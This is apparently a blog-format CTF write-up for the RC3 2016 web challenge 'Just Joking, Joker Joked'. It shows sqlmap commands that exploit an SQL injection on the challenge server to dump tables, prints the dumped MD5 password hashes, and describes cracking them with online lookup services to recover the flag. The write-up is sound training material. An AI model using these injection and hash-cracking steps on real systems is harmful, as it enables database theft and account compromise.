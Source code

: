 ```yaml
---
layout: post
title: "RC3 CTF : Just Joking, Joker Joked"
author: dade
date: 2016-11-20 13:37:57 -0700
slug: just-joking
category:
- 2016
- rc3ctf
---
```

**Category:** Web

**Points:** 200

**Description:**

```
Yes, that is gramatically correct. Now who doesn't love a good book and an even better villain?

https://ctf.rc3.club:2010/

With Love,

Joker xx

"Hint: 200: Flags aren't in plaintext"
```

# Investigation
I kind of cheated here, I normally wouldn't resort to running sqlmap immediately. But in the end, I used it to dumb tables.

```
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --dbs
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" --tables
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T basic
$ sqlmap -u "https://ctf.rc3.club:2010/connect.php?primary=" -D CCNs -T secrets
```
I used this to dump tables, I also dumped the rest of the tables but nothing looked especially interesting.

```
CCNs
	basic
	+----+--------------+--------+
	| id | name         | gender |
	+----+--------------+--------+
	| 1  | Harley Quinn | Female |
	| 2  | Riddler      | ?      |
	| 3  | Joker        | HAHAHA |
	| 5  | Two-Face     | Male   |
	+----+--------------+--------+
	secrets
	+----+---------+----------------------------------+
	| id | User    | Password                         |
	+----+---------+----------------------------------+
	| 1  | Admin   | 3118dd54268acb0f04a048fd090e14f7 |
	| 2  | Guy     | c9846fa3e401252cf822a21ecf6a567e |
	| 3  | Joker   | c417fccfc5d5a288243c96359c62c381 |
	| 4  | Colonel | adac9d4711cd21cc4cec1b0f8e7ca538 |
	+----+---------+----------------------------------+
```

Looking at the flag.welcome table, the flag claims to be pcbfcppgle. I also happen to be told in the hint that "flags aren't in plaintext" so let's rotate that flag.

Using my favorite [caesar cipher tool](http://www.xarg.org/tools/caesar-cipher/) we put that in and choose "Guess" for the key, and it finds that with a key of 2 the flag translates to redherring. How annoying.


Looking at the CCNs.secrets table, we see some hashes. Let's try to crack (https://crackstation.net) those.

3118dd54268acb0f04a048fd090e14f7 -> NiceTry

Again, how annoying.

![Two hours later...](https://i.ytimg.com/vi/ZZ81_Wkykfo/hqdefault.jpg)

Let's see if any online databases have the other hashes.


Crackstation? Nope.


Hashkiller? Nope.


MD5Decrypt.org? Yup.

```
3118dd54268acb0f04a048fd090e14f7 -> NiceTry
c9846fa3e401252cf822a21ecf6a567e -> InfectiousLaughter
c417fccfc5d5a288243c96359c62c381 -> RC3-2016-HAHAHAHA
adac9d4711cd21cc4cec1b0f8e7ca538 -> TheRealSanders
```

# Flag
**RC3-2016-HAHAHAHA**
